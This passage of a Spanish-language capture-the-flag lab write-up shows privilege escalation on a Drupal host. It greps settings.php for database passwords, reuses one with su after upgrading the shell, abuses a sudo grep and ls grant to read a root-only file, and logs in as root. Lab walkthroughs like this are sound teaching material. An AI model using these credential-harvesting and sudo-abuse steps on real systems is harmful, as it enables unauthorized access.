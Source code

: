 Procedemos a encontrar credenciales, De la base de datos:
```bash
 cat sites/default/settings.php | grep "password"
 
 * to replace the database username and password and possibly the host and port
 *   'password' => 'ballenitafeliz', //Cuidadito cuidadín pillin
 * username, password, host, and database name.
 *     'password' => 'sqlpassword',
 * You can pass in the user name and password for basic authentication in the
```

Sabiendo que tenemos un usuario bajo el nombre de **ballenita** usaremos la contrasena para intentar loguearnos con este usuario
```bash
# Comando para escalar al usuario: ( ballenita )
su ballenita
```

Intentando loguearnos nos da este mensaje, Indicando que estamos intentando ejecutar comandos en un entorno que no es una terminal interactiva **TTY**, Es decir que tenemos una shell basica
```bash
su: must be run from a terminal
```

Asi que forzamos una bash interactiva con el siguiente comando:
```bash
script /dev/null -c /bin/bash
```

Una ves que sanitizamos la tty, y ya que tenemos una contrasena del usuario **ballenita** procedemos a loguearnos como este usuario:
```bash
su ballenita # ( ballenitafeliz )
```

###### Usuario `[ ballenita ]`:
Listando los permisos para este usuario tenemos lo siguiente:
```bash
User ballenita may run the following commands on 982f46e160bb:
    (root) NOPASSWD: /bin/ls, /bin/grep
```

Nos aprovechamos de esto para ver que existe en el directorio de **root**
```bash
sudo -u root /bin/ls /root
```

Tenemos un archivo **secretitomaximo.txt** que con el binario de **grep** intentaremos acceder a el
```bash
sudo -u root /bin/grep '' /root/secretitomaximo.txt
```

Tenemos lo siguiente que probaremos si es una password valida para el usuario **root**
```bash
su root # ( nobodycanfindthispasswordrootrocks )
```

---
